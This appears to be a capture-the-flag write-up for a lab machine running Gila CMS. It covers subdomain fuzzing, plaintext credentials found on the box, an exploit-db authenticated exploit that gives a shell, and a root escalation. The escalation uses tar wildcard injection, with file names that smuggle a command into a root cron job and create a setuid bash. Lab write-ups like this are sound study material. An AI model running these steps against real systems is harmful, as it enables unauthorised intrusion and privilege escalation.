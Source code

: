 http://10.10.63.213/

```
Powered by Gila CMS

```


GILA CMD Version:
`1.10.9`

## wfuzz
#wfuzz
```
wfuzz -c -f sub-fighter -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.htm"


subdomain found: dev.cmess.thm

# to filter out certain word counts:
--hw: <word_count>
```

Subdomains:
`dev.cmess.thm`
## Credentials found
```
andre@cmess.thm
KPFTN_f2yxe%
```
use creds above to login to /admin

## Exploit found 
authenticated explloit using andre's login to the CMS application
https://www.exploit-db.com/exploits/51569

Shell access  as `www-data`

```
www-data@cmess:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

## Credentials found using linpeas
```
www-data@cmess:/var/www/html/tmp$ cat /opt/.password.bak 
andres backup password
UQfsdCB7aAP6
```

## ssh as andre
```
andre@cmess:~/backup$ sudo -l
[sudo] password for andre: 
Sorry, user andre may not run sudo on cmess.
```

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > ./backup/shell.sh
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec='sh ./shell.sh'

# wait for cron job to run by root
$ /tmp/bash -p
# whoami
root
```